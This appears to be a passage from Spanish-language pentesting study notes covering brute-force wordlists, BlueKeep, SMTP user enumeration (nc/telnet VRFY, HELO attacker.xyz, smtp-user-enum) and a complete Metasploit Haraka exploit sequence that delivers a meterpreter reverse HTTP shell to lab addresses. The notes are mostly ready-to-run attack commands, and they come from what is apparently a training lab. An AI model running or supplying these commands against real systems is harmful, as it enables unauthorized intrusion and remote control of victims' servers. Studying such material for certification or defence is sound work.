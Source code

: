 #### Diccionarios
Lista de palabras para ataques de fuerza bruta

```python
/usr/share/metasploit-framework/data/wordlists/common_users.txt
/usr/share/metasploit-framework/data/wordlists/unix_passwords.tx
```

##### Metasploit
Utilidades de la herramienta todo terreno carnal

```python
Exploiting Windows CVE-2019-0708 RDP Vulnerability (BlueKeep)
post/windows/manage/enable_rdp (habilitar rdp em msfconsole
```

### SMTP SERVICE - 25
El Servicio de Transferencia de Correo Simple (SMTP) opera en el puerto 25 y es un protocolo fundamental para el envío de correos electrónicos en redes. Facilita la transferencia de mensajes entre servidores de correo, permitiendo la comunicación global mediante el enrutamiento y entrega de mensajes electrónicos a través de Internet.

```python
nmap -sV -script banner IP
nc IP
VRFY admin@openmailbox.xyz (en la coneccion de nc o telnet podemos validar esto)
VRFY commander@openmailbox.xyz
telnet IP 25
HELO attacker.xyz 
EHLO attacker.xyz
smtp-user-enum -U /usr/share/commix/src/txt/usernames.txt -t IP
```

#### Diccionarios
Lista de palabras para ataques de fuerza bruta

```python
/usr/share/metasploit-framework/data/wordlists/unix_users.txt
```

##### Metasploit
Utilidades de la herramienta todo terreno carnal

```python
exploit/linux/smtp/haraka (set SRVPORT 9898, set email_to root@attackdefense.test, set payload linux/x64meterpreter_reverse_http, set rhosts, set lhosts)
use auxiliary/scanner/smtp/smtp_enum
search type:auxiliary name:smtp (con esto enumeramos en msfconsole para enumerar smtp)
Example - exploit haraka:
use exploit/linux/smtp/haraka
set SRVPORT 9898
set email_to root@attackdefense.test
set payload linux/x64/meterpreter_reverse_http
set rhost 192.150.137.3
set LHOST 192.150.137.2
exploit
```
